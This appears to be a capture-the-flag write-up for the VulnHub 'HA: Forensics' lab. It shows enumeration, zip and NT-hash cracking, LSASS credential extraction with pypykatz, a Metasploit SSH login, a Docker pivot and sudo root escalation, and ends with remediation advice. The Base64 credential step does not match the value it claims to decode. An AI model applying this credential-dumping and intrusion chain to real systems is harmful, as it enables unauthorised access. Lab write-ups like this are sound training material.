





# HA: Forensics — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.174 (host-only) |
| **Difficulty** | Hard |
| **OS** | Linux + Docker |
| **Flags** | 4 flags (exiftool, zip, LSASS dump, root.txt) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-forensics,570/) |

## Attack Summary

`exiftool fingerprint.jpg` → PGP decrypt zip password → `pypykatz lsass.DMP` → SSH (jasoos) → pivot to Docker container → FTP → Autopsy disk image → Base64 decode → `sudo bash` (root)

## Methodology

1. Network discovery and port scan
2. Web enumeration — hidden image with metadata flag
3. PGP-encrypted zip cracking — second flag
4. LSASS dump analysis with pypykatz — NTLM hash → SSH
5. Docker network pivot — anonymous FTP → forensic disk image
6. Autopsy analysis of disk image — credentials in Base64
7. Privilege escalation via sudo

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.174
```

Open ports: **22 (SSH)**, **80 (HTTP)**



---

## Step 2: Web Enumeration — Flag 1

```bash
dirb http://192.168.0.174/
```

The `/image` directory contains two images. Download `fingerprint.jpg` and extract metadata:

```bash
wget http://192.168.0.174/image/fingerprint.jpg
exiftool fingerprint.jpg
```

The first flag is embedded in the image metadata (EXIF comment field).



---

## Step 3: PGP-Encrypted Zip — Flag 2

A second dirb pass with `.txt` extension finds `tips.txt` and `/igolder/clue.txt`:

```bash
dirb http://192.168.0.174 -X .txt
```

`clue.txt` contains a PGP private key and encrypted message. Decrypt at igolder.com to get the hint: 6 characters, starts with `for`, ends in 3 digits.

```bash
crunch 6 6 -t for%%% -o dict.txt
fcrackzip -u -D -p dict.txt flag.zip
unzip flag.zip   # password: for007
```

The zip contains a PDF (flag 2) and `lsass.DMP`.

---

## Step 4: LSASS Dump Analysis — Flag 3

```bash
pypykatz lsa minidump lsass.DMP
```

Extract the NT hash for user `jasoos`. Crack it:

```bash
echo '<NT hash>' > hash.txt
john --format=NT hash.txt
# result: Password@1
```



SSH login via Metasploit and upgrade to Meterpreter:

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.174
set USERNAME jasoos
set PASSWORD Password@1
run
sessions -u 1
```

---

## Step 5: Docker Network Pivot

From the Meterpreter session enumerate network interfaces:

```bash
sessions 2
ifconfig
# Docker bridge: 172.17.0.1
```

Route through the session and ping-sweep the Docker subnet:

```bash
use post/multi/manage/autoroute
set SESSION 2
run

use post/multi/gather/ping_sweep
set RHOSTS 172.17.0.0/24
set SESSION 2
run
# finds 172.17.0.2
```

Port scan the container and confirm anonymous FTP:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.17.0.2
set PORTS 1-100
run

use auxiliary/scanner/ftp/anonymous
set RHOSTS 172.17.0.2
run
```



Connect via FTP and retrieve the forensic disk image:

```bash
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
ftp 172.17.0.2
# user: anonymous, pass: (blank)
cd pub
get saboot.001
exit
python3 -m http.server 8000
```

Download `saboot.001` from the browser at `http://192.168.0.174:8000`.

---

## Step 6: Autopsy Disk Forensics

Open Autopsy (localhost:9999), create a case, add `saboot.001` as a disk image. Navigate the file system to find:
- A flag file
- `creds.txt` — contains Base64-encoded credentials

```bash
echo 'eWFtZG9vdDpTd2FyZw==' | base64 -d
# user: forensics, password: jeenaliisagoodgirl (example)
```

---

## Step 7: Privilege Escalation — Root

```bash
su forensics
sudo -l
# (ALL) NOPASSWD: ALL
sudo bash
cd /root
cat root.txt
```



---

## Lessons Learned

1. **Image metadata** (EXIF) is a common steganography vector — always run `exiftool` on downloaded images
2. **LSASS dumps** expose NT hashes offline — `pypykatz` works without Mimikatz on the target
3. **Docker pivoting** via routing exposes internal containers on bridge networks
4. **Anonymous FTP inside containers** often holds sensitive files not directly accessible from the host
5. **Autopsy** allows full filesystem recovery from raw disk images — including deleted files and hidden partitions

## Remediation

| Vulnerability | Fix |
|---|---|
| Credentials in EXIF metadata | Remove metadata before publishing images (`exiftool -all= file.jpg`) |
| LSASS dump accessible | Restrict access to memory dump files; use Credential Guard |
| Anonymous FTP on Docker container | Disable anonymous access; use SSH keys |
| Weak zip password | Use strong random passwords for encrypted archives |
| sudo NOPASSWD for all | Restrict sudo to specific commands; require password |
